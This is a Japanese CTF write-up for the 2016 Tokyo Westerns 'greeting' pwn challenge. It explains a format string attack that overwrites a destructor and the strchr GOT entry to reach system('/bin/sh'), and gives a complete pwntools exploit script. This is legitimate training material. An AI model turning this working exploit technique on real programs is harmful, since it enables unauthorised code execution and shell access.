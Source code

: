 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2016/twctf-2016-greeting/
  - /blog/2016/12/09/twctf-2016-greeting/
date: "2016-12-09T18:17:13+09:00"
tags: [ "ctf", "writeup", "pwn", "twctf", "format-string-attack", "destructor", "got-overwrite" ]
"target_url": [ "https://ctftime.org/task/2735" ]
---
```


# Tokyo Westerns/MMA CTF 2nd 2016: greeting

bataさんリストの先頭にあったのでpwn会でやった。これぐらいの難しさはbabyでなくてeasyじゃなかったっけか。

## solution

format string attackでdestructorとGOTを書き換え、return-to-mainして`system("/bin/sh")`。
入出力の文字列長の制約が変に厳しいので`%hn`あたりを上手く使う。


まず気付くのは`.tomori`sectionの`nao`関数。
実行すると呼ばれるが`main`からは呼ばれていないこれは、constructorとして登録されていて、`main`に入る前に呼ばれる。
gdbで`set follow-fork-mode parent`にせずに実行すると`main`でbreakできなかったりするが、これはこの子のおかげ。

format string bugがあるが、`printf`の後に何も関数を踏まないので困ってしまう。
これはdestructorをを書き換えることで回避する。
`nao`が書かれている場所の下、`__do_global_dtors_aux`を書き換えればよい。

destructorでripを取ったとすると引数を渡すのに困る。
そこで`main`関数の先頭に戻り、`fgets`で`/bin/sh`を渡して(`system`に書き換えた)`strchr`に与え、shelを取る。

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
# parser.add_argument('host', nargs='?', default='localhost')
# parser.add_argument('port', nargs='?', default=8000, type=int)
parser.add_argument('--log-level', default='debug')
args = parser.parse_args()
context.log_level = args.log_level

dtor = 0x8049934 # 0x80485a0 -> main
main = 0x80485ed
strchr_got = 0x8049a50 # 0xffffffff -> system_plt
system_plt = 0x8048490

# p = remote(args.host, args.port)
p = process('./greeting')
p.recvuntil('Please tell me your name... ')
payload = ''
payload += 'AB'
payload += p32(strchr_got) # 12
payload += p32(strchr_got + 2) # 13
payload += p32(dtor) # 14
payload += '%%%dd%%12$hn' % ((u16(p32(system_plt)[0:2]) - len('Nice to meet you, AB' + 'AAAA' * 3)) % 65536)
payload += '%%%dd%%13$hn' % ((u16(p32(system_plt)[2:4]) - u16(p32(system_plt)[0:2])) % 65536)
payload += '%%%dd%%14$hhn' % ((ord(p32(main)[0]) - u16(p32(system_plt)[2:4])) % 256)
log.info(hex(len(payload)))
log.info(fiddling.hexdump(payload))
p.sendline(payload)
time.sleep(1)
p.sendline('sh')
time.sleep(1)
p.sendline('id')
p.interactive()
```
